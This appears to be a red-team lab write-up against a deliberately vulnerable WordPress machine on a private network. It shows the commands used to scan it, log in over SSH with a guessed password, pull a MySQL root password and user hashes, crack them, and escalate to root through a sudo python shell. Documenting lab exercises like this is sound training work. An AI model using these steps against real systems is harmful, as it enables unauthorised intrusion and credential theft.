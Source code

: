 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:  
~~~
nmap -sV 192.168.1  
~~~

![red1](https://user-images.githubusercontent.com/32025331/155894956-f1c31fe2-82f8-4a57-a74d-95c5a0dda68f.PNG)

This scan identifies the services below as potential points of entry:  
  
Target 1  
- OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
- Apache httpd 2.4.10 ((Debian))  
  
The following vulnerabilities were identified on each target:
- Target 1
- Weak server password
- Unsalted hashed passwords
- Unpatched WordPress software
  
 ## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


**flag1{b9bbcb33e11b80be759c4e844862482d}**
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  
- From there we ran wpscan: 
~~~
wpscan –url http://192.168.1.110/wordpress
~~~
![red2](https://user-images.githubusercontent.com/32025331/155894957-b9e4c47b-09d7-43ff-9d0f-d4a3ef808915.PNG)

We then found two login names: Steven and Michael  
![red3](https://user-images.githubusercontent.com/32025331/155894958-c2fc6d12-f3ff-47b4-93a7-9a038cbdac2a.PNG)
By sheer luck, we guessed the password without brute force:  
~~~
- ssh michael@192.168.1.110
- Password:  michael
cd ../../var/www/html
grep -RE flag1
~~~
![red4](https://user-images.githubusercontent.com/32025331/155894959-9c35c8ed-fc7c-4049-8b13-c03f6d785452.PNG)
  
**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**  
- Follow same steps as flag 1 to ssh into the server  
~~~ 
cd ../../var/www/
grep -RE flag2
~~~


**flag3{afc01ab56b50591e7dccf93122770cd2}**  
**flag4{715dea6c055b9fe3337544932f2941ce}**  
Tools used: SSH, MySQL  
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
nano wp-config.php  
~~~


~~~
mysql -u root -pR@v3nSecurity  
~~~

**Flag 4 from Steven’s account:  **  
- Tools used: SSH, MySQL, johntheripper  
- Using the MySQL credentials from before:  
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select user_login, user_pass from wp_users;
~~~
![red5](https://user-images.githubusercontent.com/32025331/155894960-bc91d0f1-f6ac-4d95-bc81-c3027734bba8.PNG)
This is where we found the hashed passwords.  
Exit back out to Kali. From here we can use John the Ripper:  
![red6](https://user-images.githubusercontent.com/32025331/155894961-05ed83c8-ab77-40f0-b8e0-33995815607d.PNG)
SSH into the webserver using Steven’s credentials:  
~~~
Ssh steven@192.168.1.110
Password: pink84
~~~
Now we run a python exploit:
~~~
sudo /usr/bin/python -c 'import os;os.system("/bin/sh")'
cd root
cat flag4.txt
~~~
[picture]
